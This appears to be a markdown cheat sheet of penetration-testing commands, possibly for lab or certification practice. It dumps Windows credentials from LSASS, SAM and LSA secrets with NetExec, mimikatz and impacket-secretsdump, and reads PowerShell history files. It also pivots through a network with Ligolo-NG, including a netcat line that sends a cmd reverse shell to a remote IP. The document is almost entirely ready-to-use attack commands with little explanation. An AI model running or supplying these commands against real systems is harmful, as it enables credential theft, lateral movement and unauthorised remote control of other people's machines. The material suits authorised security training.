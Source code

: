 ```
nxc smb <ip_range> -u <user> -p <password> -M lsassy
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords"  "exit"

nxc smb <ip_range> -u <user> -p <password> --sam
mimikatz "privilege::debug" "lsadump::sam" "exit"

nxc smb <ip_range> -u <user> -p <password> --lsa
mimikatz "privilege::debug" "lsadump::lsa" "exit"
reg save HKLM\SECURITY <file>;  reg save HKLM\SYSTEM <file>
impacket-secretsdump -system SYSTEM -security SECURITY
```


## Read Powershell History 

```
Get-History
(Get-PSReadlineOption).HistorySavePath
type C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

## Ligolo-NG

```
sudo ligolo-proxy -selfcert
./ligolo_agent64 -ignore-cert -connect 10.10.16.2:11601 &

session
1
ifconfig
ifcreate --name ligolo0
tunnel_start --tun ligolo0
tunnel_list
add_route --name ligolo0 --route 172.16.1.0/24
route_list
```

If target cannot access Kali (HTTP different ports or Ping Kali) ->  Add a listener that redirects traffic when it hits the middle target (agent):
```
listener_add --addr 0.0.0.0:4444 --to <KaliIP>:4444
```

To catch reverse shells we use the agent's IP and Port:

```
.\nc64.exe 10.10.127.147 4444 -e cmd
```

# AD
https://orange-cyberdefense.github.io/ocd-mindmaps/img/mindmap_ad_dark_classic_2025.03.excalidraw.svg
## Find DC IP
